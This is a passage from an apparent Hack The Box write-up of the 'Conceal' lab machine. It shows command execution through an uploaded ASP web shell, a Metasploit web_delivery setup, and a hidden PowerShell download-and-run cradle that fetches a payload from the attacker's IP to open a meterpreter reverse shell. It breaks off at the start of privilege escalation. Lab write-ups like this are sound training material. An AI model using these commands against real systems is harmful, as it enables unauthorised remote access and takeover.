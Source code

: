 	ftp> 

So after uploading the shell we can execute commands from curl.

	root@Seyptoo:~/htb/box/Conceal# curl http://10.10.10.116/upload/index.asp -d "cmd=whoami"
	[...SNIP...]
	conceal\destitute
	[...SNIP..]
	
Perfect we are ready for the reverse shell we will use metasploit the web_delivery module to perform our reverse shell with no problem.

	msf > use exploit/multi/script/web_delivery
	msf exploit(multi/script/web_delivery) > set LHOST 10.10.15.229
	msf exploit(multi/script/web_delivery) > set LPORT 9001
	msf exploit(multi/script/web_delivery) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
	msf exploit(multi/script/web_delivery) > set TARGET 4
	
So the code provided in powershell must be put from the website and not from curl because there are encoding problems etc. So I strongly advise you to go on the path directly. The code provided by Metasploit.

	powershell.exe -nop -w hidden -c $z="echo ($env:temp+'\DF95KsPU.exe')"; (new-object System.Net.WebClient).DownloadFile('http://10.10.15.229:8080/mSErF4WvPeAoECb', $z); invoke-item $z
	
After running the powershell code we have a shell, but the problem is we are not administrator.

	msf exploit(multi/script/web_delivery) > exploit
	[*] 10.10.10.116     web_delivery - Delivering Payload                                                
	[*] Sending stage (206403 bytes) to 10.10.10.116
	[*] Meterpreter session 1 opened (10.10.15.229:4444 -> 10.10.10.116:49675) at 2019-05-18 13:50:59 +0200

	meterpreter > shell
	Process 1564 created.
	Channel 1 created.
	Microsoft Windows [Version 10.0.15063]
	(c) 2017 Microsoft Corporation. All rights reserved.
	
	C:\Windows\SysWOW64\inetsrv> whoami
	conceal\destitute

PrivEsc
----
The privesc is not very complicated on the machine we will type the command below. By running whoami /priv, we see that user rights will allow us to use the juicy-potato exploit to elevate to NT AUTORITY/SYSTEM.

	
	C:\Users\Windows\System32>whoami /priv

	PRIVILEGES INFORMATION
	----------------------

	Privilege Name                Description                               State   
	============================= ========================================= ========
	SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
	SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
	SeShutdownPrivilege           Shut down the system                      Disabled
	SeAuditPrivilege              Generate security audits                  Disabled
	SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
	SeUndockPrivilege             Remove computer from docking station      Disabled
	SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
	SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
	SeTimeZonePrivilege           Change the time zone                      Disabled
